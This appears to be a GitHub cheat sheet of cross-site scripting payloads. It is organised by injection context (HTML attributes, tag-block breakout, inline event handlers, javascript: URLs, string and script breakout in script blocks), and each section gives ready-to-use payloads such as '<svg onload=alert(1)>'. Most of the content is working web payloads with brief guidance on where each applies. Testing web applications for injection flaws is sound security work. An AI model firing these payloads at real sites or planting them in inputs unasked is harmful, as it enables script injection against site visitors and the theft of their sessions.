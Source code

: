 ![image](https://user-images.githubusercontent.com/68894302/171080390-d24ab3d1-29b4-4989-a23d-ddc27141cfe0.png)

________________________________________________________________________________
## Summary

1. Basics 
2. Advanced
3. Bypass 
4. Exploiting
5. Extra 
6. Brutal 


## HTML Injection
Use when input lands inside an attribute’s value$ of an HTML tag or outside tag except the 
ones described in next case. Prepend a `-->` to payload if input lands in HTML comments.
```
<svg onload=alert(1)>
"><svg onload=alert(1)>
```

## HTML Injection – Tag Block Breakout
Use when input lands inside or between opening/closing of the following tags: 
`<title><style><script><textarea><noscript><pre><xmp>` and `<iframe>` (`</tag>` is accordingly). 
```
</tag><svg onload=alert(1)>
"></tag><svg onload=alert(1)>
```

## HTML Injection - Inline 
Use when input lands inside an attribute’s value of an HTML tag but that tag can’t be 
terminated by greater than sign (>).
```
"onmouseover=alert(1) //
"autofocus onfocus=alert(1) //
```


## HTML Injection - Source 
Use when input lands as a value of the following HTML tag attributes: href, src, data or 
action (also formaction). Src attribute in script tags can be an URL or `data:,alert(1)`. 
```javascript:alert(1)```

## Javascript Injection
Use when input lands in a script block, inside a string delimited value.
```
'-alert(1)-'
'/alert(1)//
```

## Javascript Injection - Escape Bypass
Use when input lands in a script block, inside a string delimited value but quotes are 
escaped by a backslash.
```
\'/alert(1)//
```


## Javascript  Injection – Script Breakout 
Use when input lands anywhere within a script block. 
```
</script><svg onload=alert(1)>
```
```